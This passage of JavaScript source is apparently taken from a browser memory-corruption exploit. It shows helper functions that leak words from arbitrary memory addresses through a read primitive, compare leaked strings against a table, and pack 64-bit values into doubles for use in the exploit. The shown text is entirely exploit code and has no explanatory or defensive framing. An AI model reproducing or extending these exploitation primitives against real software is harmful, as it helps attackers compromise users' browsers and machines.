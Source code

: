         for(var i = 0; i < DwordArray.length; i++) {
            ByteArray.push(DwordArray[i] & 0xffff);
            ByteArray.push((DwordArray[i] & 0xffff0000) >> 16);
        }

        return String.fromCharCode.apply(null, ByteArray);
    }

    function StrcmpLeak64(StrDwordTable, LeakAddress) { // Compare two strings between an array of WORDs and a string at a memory address
        var TargetTableIndex = 0;

        while (TargetTableIndex < StrDwordTable.length) {
            var LeakStrWord = LeakWord64(MakeQword(LeakAddress.high, LeakAddress.low + (4 * TargetTableIndex)));
            var SanitizedStrWord = NullSanitizeWord(LeakStrWord);
            var TableWord = (StrDwordTable[TargetTableIndex] & 0x0000FFFF);

            if(TableWord == SanitizedStrWord) {
                LeakStrWord = LeakWord64(MakeQword(LeakAddress.high, LeakAddress.low + (4 * TargetTableIndex) + 2));
                SanitizedStrWord = NullSanitizeWord(LeakStrWord);
                TableWord = ((StrDwordTable[TargetTableIndex] & 0xFFFF0000) >> 16);

                if(TableWord == SanitizedStrWord) {
                    if((TargetTableIndex + 1) >= StrDwordTable.length) {
                        return true;
                    }

                    TargetTableIndex++;
                }
                else {
                    break;
                }
            }
            else {
                break;
            }
        }

        return false;
    }

    function MakeDouble(High, Low) {
        return Int52ToDouble(QwordToInt52(High, Low));
    }

    function QwordToInt52(High, Low) {
        // Sanity check via range. Not all QWORDs are going to be valid  52-bit integers that can be converted to doubles

        if ((Low !== Low|0) && (Low !== (Low|0)+4294967296)) {
            DebugLog ("Low out of range: 0x" + Low.toString(16));
        }

        if (High !== High|0 && High >= 1048576) {
            DebugLog ("High out of range: 0x" + High.toString(16));
        }

